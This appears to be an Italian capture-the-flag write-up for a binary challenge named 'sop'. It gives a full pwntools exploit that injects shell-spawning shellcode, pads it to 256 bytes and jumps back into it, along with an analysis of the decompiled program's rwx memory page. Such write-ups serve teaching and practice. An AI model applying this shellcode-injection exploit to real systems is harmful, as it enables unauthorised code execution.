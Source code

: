 ```c
from pwn import *

elf = ELF("sop")

p = remote("sop.challs.cyberchallenge.it", 9247)
offset = 256

shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b"A" * (offset - len(payload))
payload += b'\xe9\xfb\xfe\xff\xff'

p.send(payload)
p.interactive()
```

Analizzando il programma notiamo che viene creata una pagina di 4096 byte all’indirizzo 0x100000 con permessi rwx.

```c
mmap((void *)0x100000,4096,7,0x32,-1,0);
```

Poi mette all’indirizzo 0x100100 la funzione write_stdout

```c
memcpy((void *)0x100100,write_stdout,len_read);
```

E successivamente chiama la funzione read_stdin

```c
(*(code *)(len_write + 0x100100))(0x100000,266);
```

Lo spazio disponibile per il nostro input è solamente di 0x100 (256 byte).

La logica dell’exploit è questa:

1. carichiamo lo shellcode
2. aggiungiamo del padding per riempire fino a 256
3. mettiamo un jmp -261 per saltare all’inizio dello shellcode

261 perché l’istruzione di jmp occupa 5 byte.